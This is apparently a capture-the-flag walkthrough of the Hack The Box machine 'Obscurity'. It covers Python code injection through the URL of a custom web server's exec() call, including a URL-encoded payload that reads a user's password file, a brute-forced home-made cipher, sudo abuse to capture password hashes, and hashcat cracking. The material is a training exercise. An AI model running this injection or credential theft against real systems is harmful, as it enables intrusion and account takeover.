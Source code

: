 # [Obscurity](https://www.hackthebox.eu/home/machines/profile/219)
## IP : 10.10.10.168

## **Step 0** : Ports Scan

![Port Scan Result](images/port_scan.png)

* Website : http://10.10.10.168:8080/

## __Step 1__ : Hints from the [home page](http://10.10.10.168:8080/).

> Message to server devs: the current source code for the web server is in __SuperSecureServer.py__ in the secret development directory`

After some tests the server is fuzzable from the root. Any file or folder can be returned by the browser.

![FFUF Report](images/ffuf_report.png)

* Server code : http://10.10.10.168:8080/develop/SuperSecureServer.py

## __Step 2__ : Understanding the custom made server

From *hints/SuperSecureServer.py* :
```python
def serveDoc(self, path, docRoot):
    ...
    path = urllib.parse.unquote(path)
    ...
    exec(info.format(path)) # This is how you do string formatting, right?
    ...
    return {"body": data, "mime": mime, "status": status}
```
The `path` parameter coming from the URL. So it's possible to inject python code from url. We need to encode with `urllib.quote()` the code to send it to the http server:

> http://obscurity/{urlib_quoted_python_code}

Also, the code shows that through this function, only the **mime** var can be used to get info back.

## **Step 3** : Injection & Enumeration

With code used in *lab/inject.py* :

![injection_result](images/inject_report.png)

We see that we're **user=www-data(uid=33)**

* Time to see what's Robert has for us :

![Clues,clues,clues](images/inject_robert.png)

We can't read **user.txt** yet.
But it seems we can have hints on the next step with the other files.

```
$ python3 lab/inject.py "open('/home/robert/passwordreminder.txt','r').read()"
Payload : %27%3BMIMES%5B%27html%27%5D%3Dopen%28%27/home/robert/passwordreminder.txt%27%2C%27r%27%29.read%28%29%3Ba%3D%27
Â´ÃÃÃÃÃ ÃÃÃÃ©Â¯Â·Â¿k
````
* Weird encoding, got password from Chrome : 

![thank_you_chrome](images/chrome_password.png)

To summarize : 
* User : **robert**
* Password : **´ÑÈÌÉàÙÁÑé¯·¿k**

Let's try that : 
```
$ ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Permission denied, please try again.
```

### Decrypting **Robert's password**

The file **SuperSecureCrypt.sh** shows us how Robert encrypted his password.
We can bruteforce the key used to encrypt with the script **lab/break.py** :

```
$ python3 break.py 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```
* The key used to encrypt is **alexandrovich**

```
echo "´ÑÈÌÉàÙÁÑé¯·¿k" > to_decrypt.txt
```

Then we decrypt it : 

![security...](images/password_decrypt.png)

Password : **SecThruObsFTW**

```
$ ssh robert@10.10.10.168
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

Owned user !

## BetterSSH, really ?

With a bit of enum (**linenum.sh**), we find : 

```
$ echo 'SecThruObsFTW' | ./linenum.sh -s > .report.txt
$ more .report.txt
...
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
...
```

This script is flawed. Basically, it reads all passwords from **/etc/passwd** and writes them in a randomly generated file in **/tmp/SSH** before deleting it.
We can read its content before it get erased with **lab/listener.py**

```
$ scp listener.py robert@10.10.10.168:/home/robert/listener.py
robert@obscure:~$ python3 listener.py &
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: robert
Enter password: SecThruObsFTW
Authed!
```

Then we have our generated file with the encrypted root password : 

> $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

Using **hashcat** :

![HASHCAT](images/root_hashcat.png)

with **BetterSSH** :

![CTF](images/root_flag.png)

Owned root !